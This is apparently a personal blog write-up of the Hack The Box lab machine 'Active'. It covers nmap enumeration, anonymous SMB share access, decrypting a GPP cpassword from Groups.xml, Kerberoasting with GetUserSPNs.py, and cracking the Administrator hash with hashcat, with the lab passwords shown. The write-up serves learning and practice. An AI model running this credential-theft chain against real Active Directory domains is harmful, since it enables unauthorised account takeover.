








+++
title = 'Active'
date = 2024-08-19T11:27:50-03:00
draft = false
weight = 3
+++

## Machine info


https://app.hackthebox.com/machines/148

- ​Difficulty: Easy
- OS: Windows
- Release date: 28 Jul, 2018
- Rooted on: 01 Jul, 2024

## Foothold

Starting with nmap:


```bash
$ nmap -sCV -Pn -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.1.223
```
```
# Nmap 7.94SVN scan initiated Thu Aug  1 07:54:57 2024 as: nmap -sCV -Pn -p- --min-rate=1000 -oN nmap/complete.nmap 10.129.1.223
Increasing send delay for 10.129.1.223 from 640 to 1000 due to 55 out of 183 dropped probes since last increase.
Warning: 10.129.1.223 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.1.223
Host is up (0.16s latency).
Scanned at 2024-08-01 07:55:10 -03 for 184s
Not shown: 64319 closed tcp ports (conn-refused), 1193 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-01 10:57:04Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44606/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44198/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 32389/udp): CLEAN (Timeout)
|   Check 4 (port 9947/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-08-01T10:58:04
|_  start_date: 2024-08-01T09:45:44
|_clock-skew: 0s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug  1 07:58:14 2024 -- 1 IP address (1 host up) scanned in 196.83 seconds
```


From the scan, we find a lot of information about the machine, such as the version of the operating system, open ports, the domain name and also the fact that it's running active directory and smb - which is noticeable by the 139 and 445 ports).


### Q1: How many SMB shares are shared by the target?

smbclient can be used to attempt anonymous login on SMB.


```bash
$ smbclient -L \\active.htb -I 10.129.1.223 -N
```



**R1: 7**


### Q2: What is the name of the share that allows anonymous read access?

Here, we can try accessing each one of the shares anonymously until one of the attempts doesn't return an error


```bash
$ smbclient '//10.129.1.223/<SHARE-NAME>' -U "" -N 
```





**R2: Replication**

### Q3: Which file has encrypted account credentials in it?

After getting access to the `Replication` share, we can navigate it searching for files. What I did was simply searching for any files, downloading them and inspecting each one of them in my own machine. Luckily, there wasn't many of them and I eventually found the right one.



```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
		<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
	</User>
</Groups>
```

**R3: Groups.xml** 


### Q4: What is the decrpyted password for the SVC_TGS account?

The file we previously found is generated by an old version of Windows GPP that contained a vulnerable feature. It stored user data using these `Groups.xml` files, which besides being accessible by any user, would contain this hash that used a publicly documented key for encryption, allowing anyone to decrypt it and get other user's credentials.

On my solve, as I still didn't know about the vulnerability, I spent a decent amount of time trying to figure out how to crack the hash with hashcat, which couldn't identify the hash format.

Eventually, I googled "groups.xml password format", which returned a couple of results that talked about GPP, and that led me into the [HackTricks page](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#cached-gpp-pasword) on Windows LPE.

On the linked section, I found the explanation for the vulnerability I just described and discovered this script to decrypt the password. 

```bash
$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```


I found it interest to take a look at the script's source code in order to understand the algorithm and the disclosed encryption key thing.

https://github.com/t0thkr1s/gpp-decrypt/blob/master/gpp-decrypt.py#L22

**R4: GPPstillStandingStrong2k18**

Here, I was kinda lost while trying to get a shell. As the output of nmap had a service similar to the WinRM one from the previous machines, running on port `47001`, I kept trying to connect with evil-winrm for a long time, always getting the same error and wondering if I was doing something wrong. I then decided to take a peek at the write-up. At the point where I was, it said that we could use our acquired credentials to keep enumerating SMB, and suggested to run smbmap. This hint was enough to get back into doing some progress.

```bash
$ smbmap -r -g smbmap.out -H 10.129.1.223 -u SVC_TGS -p GPPstillStandingStrong2k18
```


Although it didn't show any information that I thought to be useful to do what I wanted, I realized that I could simply use the `SVC-TGS` user to try looking into the other shares, specifically the ones that I now know that I have access to.

So I went back to `smbclient`:

```bash
$ smbclient '//10.129.1.223/Users' -U "SVC_TGS" --password="GPPstillStandingStrong2k18"
```

At this point I realized that the `Users` share was simply the `Users` directory from Windows. The SMB shell is just more limited.

## Privilege escalation

### Q5: Which service account on Active is vulnerable to Kerberoasting?

This one, as it was close to the last task, I simply guessed it would be Administrator.

**R5: Administrator**


I then searched information about the Kerberoast attack and got to the [HackTricks page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#linux).

Found out that there is an impacket script to perform it, called GetUserSPNs.py.


```bash
$ GetUserSPNs.py -request -dc-ip 10.129.1.223 active.htb/SVC_TGS -outputfile hashes.kerberoast
```


### Q6: What is the plaintext password for the administrator account?

Cracking the hash with hashcat:

```bash
$ hashcat -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt
```


**R6: Ticketmaster1968**

We can now use smbclient again to access the User share as Administrator, and therefore be able to access their home directory.



With that, we finish the machine. It was supposed to be an introduction to Kerberoast. I feel like guided mode kinda helped me too much here, but that doesn't stop me from doing further research on the aspects of the chain.